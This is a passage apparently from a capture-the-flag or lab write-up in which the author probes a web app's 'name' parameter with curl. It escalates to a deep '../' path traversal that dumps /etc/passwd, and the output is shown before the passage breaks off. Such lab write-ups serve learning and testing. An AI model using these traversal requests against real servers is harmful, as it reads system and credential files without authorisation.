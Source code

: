 we got a long string... no php or css here and the url look's promission.
"name=hacking"
hacking is a variable, file name maybe?
we will do a basic check
 
# curl http://10.10.120.193/article?name=/etc/passwd
 
'''
c/passwd
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
'''
 
we got nothing... lets try somthing a little bit advanced
 
# curl http://10.10.120.193/article?name=/../etc/passwd
'''
c/passwd
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
'''
 
nothing...
lets do one more thing
 
# curl http://10.10.120.193/article?name=/../../../../../../../../../../etc/passwd
'''
<!DOCTYPE html>
 
<html>
 
    <body>
 
       
 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin